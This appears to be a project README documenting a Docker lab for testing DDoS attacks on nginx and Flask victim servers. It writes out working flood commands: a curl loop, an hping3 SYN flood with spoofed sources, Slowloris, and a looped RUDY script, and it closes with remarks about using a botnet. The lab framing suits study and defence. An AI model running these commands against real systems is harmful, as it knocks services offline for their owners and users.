 # Setting up a DDoS attack

## TODO
- [x] Set up a victim server with nginx on a different network
- [x] Constraints on the victim server (Ended up creating different types of services)
- [ ] Evaluation metrics for inaccessibility
  - [ ] Scenario: I am another service in the custom network and I want to access the victim's endpoint. How would the victim respond when overloaded with requests?
- [x] See if it is indeed valid to test that on a Docker network -> There are people that have done it, even on the same network, but I haven't looked thorougly.
- [/] Setup tools for monitoring the traffic and also log it (Found the tools but did not set them up)
- [ ] See botnet options
- [ ] Review default configurations for Cowrie (potentially remove RSA options for simplicity)
- [ ] Considerations on the hardware constraints of the botnet actors
- [ ] Suggestions here...

## Reverse-proxy (reverse-proxy)

In order to create a more realistic environment, we create two subnetworks, one for the victim (victim-network) and one for the botnet (chn-network). To redirect network from one network to the other, we configure another container that plays the role of a reverse-proxy (passthrough) that gets the traffic to the victim service.

Create network `docker network create victim-network` before docker compose on the reverse-proxy.

## Types of Services

### Nginx with Limited Resources Serving a Static Webpage (static)
- Simple nginx configuration with reduced buffer sizes and a limited number of worker processes to simulate a constrained server environment.

### Flask App with Gunicorn (dynamic)
- Basic Flask app for serving dynamic content, deployed with Gunicorn and configured to use a restricted number of workers (e.g., 1 to 4).

### Baseline Flask App (baseline)
- Basic Flask app serving dynamic content without Gunicorn or reverse proxy integration, representing an unoptimized setup.

## Tools to Perform a DDoS/Stress Test

## Simple curl script
Just a dummy script to imitate a DDoS.
```sh
for i in {1..100}; do
    (
        while true; do
            curl -s http://0.0.0.0:5000/ > /dev/null
        done
    ) &
done
```

### hping3
**Description:** A command-line oriented TCP/IP packet assembler and analyzer, useful for simulating various types of attacks by crafting and flooding packets.

**Example:**
Install using your package manager:
```sh
sudo apt install hping3
```

Command to simulate a SYN flood:
```sh
sudo hping3 -S -d 10000 172.19.0.2 -k --rand-source --flood -p 5000
```
- `-S`: Sends SYN packets.
- `-d 10000`: Packet size (10,000 bytes).
- `172.19.0.2`: Target IP address.
- `-k`: Keeps the connection alive.
- `--rand-source`: Randomizes the source IP address (simulates a distributed attack).
- `--flood`: Sends packets as quickly as possible.
- `-p 5000`: Target port.

### wrk
**Description:** A modern HTTP benchmarking tool capable of generating high loads. Useful for testing endpoint response times under stress.

**Example:**
Install using your package manager:
```sh
sudo apt install wrk
```

Command to simulate traffic:
```sh
wrk -t40 -c500 -d300s http://localhost:5000
```
- `-t40`: Number of threads.
- `-c500`: Number of concurrent connections.
- `-d300s`: Duration of the test (300 seconds).
- `http://localhost:5000`: Target endpoint.

### Apache Benchmark (ab)
**Description:** A simple tool for benchmarking HTTP requests, particularly useful for testing server concurrency and handling capacity.

**Example:**
Install using your package manager:
```sh
sudo apt install apache2-utils
```

Command for benchmarking:
```sh
ab -l -n 1000000 -c 1000 -k http://0.0.0.0:5000/
```
- `-l`: Do not exit on socket errors.
- `-n 1000000`: Total number of requests to perform.
- `-c 1000`: Number of concurrent requests.
- `-k`: Enable HTTP Keep-Alive.
- `http://0.0.0.0:5000/`: Target URL.

### Slowloris
**Description:** A tool for performing layer 7 (application layer) attacks by opening many simultaneous connections and keeping them alive, effectively exhausting the target server’s resources.

**Usage:**
Install using Python pip:
```sh
pip install slowloris
```

Command for launching the attack:
```sh
slowloris 172.19.0.2 -p 5000 -s 500
```
- `172.19.0.2`: Target IP address.
- `-p 5000`: Target port.
- `-s 500`: Number of simultaneous connections.

## Observations

- I had to run multiple `hping3` or combinations of `hping3` with `ab` to make the `dynamic` version potentially slower, yet it was still available after a while.
- Keep-alive connections seem to be more effective (makes sense).
- Needs more experimentation.

## Further on DDoS

## Slowris

I got it from the source repository 

```sh
git clone https://github.com/gkbrk/slowloris
```

And attacked the victims locally, from my machine. 

For example, I had the static website running on localhost on port 5002 and did the attack:

```sh
cd slowloris
python3 slowloris.py localhost -p 5002 -s 100 -v
```

- `-v`: Verbose output to see the logs.

## RUDY

This attacks are performed by opening fewr connections for a longer period and keeping them open as long as possible (depending on the resources of the attacker's machine). It opens concurrent POST HTTP connections and send payloads of varying sizes. It can be customised to send specific files as payloads, but by default is send a random payload of 1MB size.

**Usage:**
```sh
git clone https://github.com/darkweak/rudy
cd rudy
go run rudy.go [command]
```

I experiment a bit with different values for the options of the attack command, which slowed down the dynamic server. Instead of depending on one standalone command, I run a script that does 50 times the attack with sleeping 5 sec between each. 

```sh
#!/bin/bash
# Loop to run the attack 50 times with a 5-second pause between each
for i in {1..50}
do
   go run rudy.go run -u http://localhost:8081 -c 1000 -i 100s -p 1GB
   sleep 5
done
```

This port was used for me for our static victim which died. 

I got these logs from the container 
![alt text](image.png)

which prove that the nginx cannot handle the concurrent requests. 

Improtant is that I could not run the commands for loads of concurrent requests with a large payload (e.g, 5GB) withouth my host running out of memory. But imagine running this scripts from different bots in our botnet. This will for sure bring down the server. 
<<>>